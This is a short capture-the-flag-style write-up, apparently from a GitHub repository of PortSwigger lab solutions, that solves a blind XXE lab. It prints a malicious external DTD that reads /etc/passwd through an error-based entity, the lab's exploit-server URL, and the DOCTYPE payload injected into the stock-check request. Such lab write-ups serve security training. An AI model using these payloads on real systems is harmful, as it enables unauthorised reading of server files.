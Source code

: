 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/de4c9541-4a76-4c71-9bc4-f57b46a12ed2)

### Solution

we will store and view the payload

```js
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

When imported, this page will read the contents of /etc/passwd into the file entity, and then try to use that entity in a file path.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/c625146a-fd87-4228-b3d6-fdbb1bc8a14f)

Click "View exploit" and take a note of the URL for your malicious DTD.

URL - `https://exploit-0afe0072035c879b8109deb2019d00c6.exploit-server.net/exploit`

You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/eee79d73-642a-4fd5-80c6-3aa4112bad67)

we will insert this payload

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/dfdeb87c-98bf-4c58-8c83-45bdedbfab84)

lab solved

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/1f519d4e-6c90-4c5e-939e-d762602d0e1f)
